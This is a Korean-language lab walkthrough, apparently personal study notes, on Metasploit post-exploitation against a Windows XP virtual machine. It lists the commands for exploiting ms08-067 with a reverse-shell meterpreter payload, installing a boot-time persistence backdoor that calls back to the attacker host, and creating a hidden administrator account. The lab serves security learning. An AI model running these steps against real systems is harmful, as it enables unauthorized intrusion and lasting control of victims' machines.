 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  

### 2. BackDoor 계정만들기
이제 우리는 BackDoor를 할 수 있는 계정을 만든다음에 관리자의 권한을 부여해보는 연습을 해볼 것이다.
WindowXp에서 공격을 수행하고 난 이후의 시점부터 볼 것이다.  
다음의 명령어를 통해 미터프리터 세션을 열고 shell을 열어준다.  
**shell**
**net user (원하는 이름) (원하는 비밀번호) /add**  
**net user**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%EC%83%9D%EC%84%B1.png)  
을 생성하고 이를 window Xp에서 보면 다음과 같은 결과가 나타나게 된다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8.png)  
또는 Kali에서 **net user** 명령어를 통해 확인이 가능하다.  

그러나 사진에서 보다싶이 제한된 권한을 가지고 있다.  
이를 adminstorator의 권한으로 올려주기 위해 다음과 같은 작업을 한다.
**net localgroup administrators (계정이름) /add**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9.png)  
를 하고 다시 window에서 보면 다음과 같은 결과가 나타날 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9%ED%99%95%EC%9D%B8.png)  

만약 계정을 삭제하고 싶다면 다음의 명령어를 이용한다.
**net user (계정이름) (계정 비밀번호) /delete**  

**exit**  
**getsystem**  
**getuid**

이 명령어를 통해 시스템 권한과 권한이 얻어진것을 확인을 하고
다음의 명령어를 통해 시스템을 재부팅해본다.
**ps**  
**migrate (explorer.exe 필자는 492)**  
**reboot**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EC%83%9D%EC%84%B1%ED%9B%84%20%EC%A2%85%EB%A3%8C%20%EC%A4%80%EB%B9%84.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%20%EC%9B%90%EA%B2%A9%EC%A2%85%EB%A3%8C.png)  
를 하면 windowXp가 정상적으로 재부팅이 되는 것을 볼 수 있다.
이후 시스템을 종료하고 다시 window에서 로그인화면을 보면 2가지의 계정이 생겼을 겻이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/WindowXp%EB%A1%9C%EA%B7%B8%EC%9D%B8%20%ED%99%94%EB%A9%B4.png)  


